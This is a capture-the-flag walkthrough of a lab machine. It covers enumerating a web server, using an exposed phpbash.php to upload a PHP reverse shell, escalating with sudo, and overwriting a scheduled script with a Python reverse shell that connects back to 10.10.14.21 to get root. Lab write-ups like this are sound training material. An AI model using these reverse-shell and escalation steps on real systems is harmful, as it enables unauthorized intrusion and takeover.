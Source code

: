 We start by performing a scan to identify the open ports available:

![Descripción de la imagen](./Uploads/AnalisisLsLaAlaRaiz.png)




We identify that port 80 is open, which immediately suggests we are facing an HTTP server. So, we proceed to analyze the services and versions running on that port:



Now, in my analysis methodology, I like to get ahead and start checking for available subdomains on the server. I usually use Gobuster because it's very hands-on and fast:



Seeing that we have subdomains like images and uploads, we can already get an idea that there might be an attack vector to upload files to the server. But for now, we’ll visit the subdomains to further enumerate potential attack vectors:



In the /dev subdomain we find the most interesting element: phpbash.php. This is a web app that emulates a bash terminal for directory control convenience. With this in place, we have a broad way to extend permissions and make a remote connection. What we’ll do is move to the uploads directory and from there try to download a PHP reverse shell, since we suspect .php files can be executed:

Our PHP reverse shell script:



Next, a quick recon in our web pseudo-terminal:



Now, we’ll upload our reverse shell as follows. We’re going to set a listener port using nc and instruct it to only communicate to transfer the reverse shell:



Now from the pseudo-terminal, we’ll make the request from the path /var/www/html/uploads:



Now we execute the full path from the browser and set a port in listen mode with the same port and IP we configured in the reverse shell script (this must be edited with any text editor):



We receive the connection and will need to treat the TTY. This is useful to execute many common terminal functionalities and avoid easily losing the connection. To do this, we’ll run:



Once we have the terminal on our listener port, we’ll type:

script /dev/null -c bash
Ctrl+z
stty raw -echo ; fg
reset
xterm
export TERM=xterm
export SHELL=bash

Now that we had previously enumerated from the pseudo-terminal, the next step is analyzing how we can escalate privileges vertically to a user with higher permissions, since www-data usually has very limited access.

To do that, we analyze the available sudo permissions with our current user. We notice that we can execute a bash shell as scriptmanager without a password, so we escalate using:

sudo -u scriptmanager bash -i



We perform general recon with ls -la /, and we notice the presence of a scripts directory. Inside, we find a script with execution permissions. So we attempt to modify its content to establish a reverse shell through Python to a new listener port, by modifying and executing that script:

echo 'import socket,subprocess,os' > /scripts/test.py
echo 's=socket.socket(socket.AF_INET, socket.SOCK_STREAM)' >> /scripts/test.py
echo 's.connect(("10.10.14.21", 9001))' >> /scripts/test.py
echo 'os.dup2(s.fileno(),0)' >> /scripts/test.py
echo 'os.dup2(s.fileno(),1)' >> /scripts/test.py
echo 'os.dup2(s.fileno(),2)' >> /scripts/test.py
echo 'p=subprocess.call(["/bin/sh", "-i"])' >> /scripts/test.py



Now on our listener port, we receive the connection as root:



Finally, to capture the user flag user.txt, we visit /home/arrexel, and it is available to read using cat.

